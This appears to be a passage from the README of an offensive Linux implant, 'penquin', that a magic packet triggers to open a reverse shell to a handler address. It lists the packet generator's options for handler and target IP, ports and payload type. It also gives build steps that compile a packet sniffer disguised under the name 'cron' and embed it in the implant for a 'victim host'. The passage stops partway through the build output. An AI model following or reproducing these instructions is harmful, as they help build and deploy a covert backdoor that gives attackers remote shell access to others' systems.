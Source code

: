 >### Magic Packet Context
>- Make sure that the ipaddress inside the python file is correct. The default configuration will trigger the reverse shell to localhost (127.0.0.1) on port 6792. This can be changed by specifying a custom hander IP address using `--handler_ip <IP Address>` and the port can be changed using `--handler_port <port>`. The target where the penguin implant resides can be set using `--target_ip <IP Address>` and the port can be adjusted using `--target_port <port>`.
>- The penguin implant currently only supports plain text base64 encoded payloads. This can be set in the packet generator using `--payload_type base64` alternatively, an AES encrypted payload can be sent using `--payload_type aes`.

<br/>
<br/>

## Build Instructions
---

### Requirements
The following must be installed on the Ubuntu dev host:
- `build-essential`
- `libpcap-dev`
- Ensure the `GCC` version is compatible between build host & victim host 

Summary of Build Process
1. Compile the sniffer into a binary
1. Convert the sniffer binary into a header file using `xxd`
1. Add `extern` to variables contained in the header file
1. compile `penquin` program with the header file containing the sniffer binary

<br/>


1. Navigate to the `/Resources/Penquin/` folder
    ```bash
    cd /Resources/Penquin/
    ```
1. Verify the `build_Penquin.sh` exists in the folder with executable permissions.
    ```bash
    ls -lart build_Penquin.sh
    ```
1. Execute the build script ([build_Penquin.sh](build_Penquin.sh)).
    ```zsh
    ./build_Penquin.sh
    ```
    Results should look like the following:
    ```bash
    Compiling the sniffer...
    ✔ ./sniff.c exists
    ✔ Success: gcc -s -O3 -o cron sniff.c -lpcap
    ✔ ./cron exists
    Success! Sniffer compiled as cron.

    Converting sniffer to a header file...
    ✔ Success: 
    ✔ ./cron.h exists
    Inserting external variable into header file...
    ✔ Success: 
    ✔ Success: 
    Success! Header file modified.
